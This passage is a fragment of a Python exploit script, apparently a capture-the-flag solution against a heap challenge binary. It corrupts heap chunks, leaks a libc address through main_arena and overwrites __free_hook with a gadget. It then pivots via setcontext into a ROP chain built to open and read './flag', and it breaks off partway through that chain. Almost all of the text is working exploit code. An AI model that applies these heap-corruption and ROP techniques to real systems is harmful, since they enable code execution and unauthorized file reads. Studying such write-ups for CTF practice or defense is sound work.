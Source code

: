```python
    def my_edit(ptr, size):
        sl(rop([pop, ptr, size, syscall6], 0))

    my_new(0x500)
    heap3 = heap + 0x520
    my_dele(heap3)

    my_edit(heap1, 0x100000004)
    payload = flat('a' * 0x20, 0, 0x21, heap3, 0x1000)
    sl(payload)

    my_show(heap3)
    ru("ontent: ")
    main_aeran = u64(re(6, 2).ljust(8, b'\x00'))
    print(hex(main_aeran))
    LIBC = main_aeran - 0x1ebbe0
    print("libc: " + hex(LIBC))
    libc = ELF("./libc.so.6")
    env = libc.sym['environ'] + LIBC 

    gadget = LIBC + 0x0000000000154930
    setcontext = LIBC + libc.sym['setcontext']
    fhook = LIBC + libc.sym['__free_hook']

    my_edit(heap2, 0x100000004)
    sl(flat('a' * 0x20, 0, 0x21, fhook, 0x100))
    my_edit(fhook, 0x100000004)
    sl(flat(gadget))

    my_new(0x500)
    heap4 = heap3 
    my_edit(heap4, 0x100000004)

    ret = LIBC + 0x00000000000c054a
    poprax = 0x4a550 + LIBC
    poprdi = 0x26b72 + LIBC
    poprsi = 0x27529 + LIBC
    poprdx = 0x11c371 + LIBC
    syscall = 0x66229 + LIBC

    flag = heap4 + 0xb0

    payload = flat(
        0, heap4, 0, 0, # 0
        setcontext+0x3d, 0, # 0x20 
        0, 0, # 30
        0, 0, # 40 
        0, 0, # 50 
        0, 0, # 60 
        0, 0, # 70
        0, 0, # 80 
        0, 0, # 90 
        heap4+0x100, ret, # a0
        # stack 0xb0
        './flag\x00'
        ).ljust(0x100, b'b') 
    payload += flat(
        # open("./flag")
        poprax, 2, 
        poprdi, flag, 
        poprsi, 0, 
        poprdx, 0, 0, 
        syscall, 
```